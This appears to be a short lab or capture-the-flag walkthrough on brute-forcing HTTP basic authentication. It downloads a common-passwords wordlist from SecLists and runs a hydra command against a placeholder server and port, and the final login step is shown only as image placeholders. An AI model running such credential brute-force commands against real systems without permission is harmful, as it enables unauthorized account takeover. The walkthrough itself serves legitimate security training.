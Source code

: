 # Basic Authentication

After successfully brute-forcing, and then logging into the target, what is the full flag you find?

Getting the flag:

**Step 1** - Download a password wordlist:

* {% code overflow="wrap" %}
  ```bash
  curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
  ```
  {% endcode %}

**Step 2** - Execute the command:

* {% code overflow="wrap" %}
  ```bash
  hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt SERVER_IP http-get / -s SERVER_PORT 
  ```
  {% endcode %}

**Step 3** - Login into the application:

*   Login with the founded credentials.

    <figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

    <figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

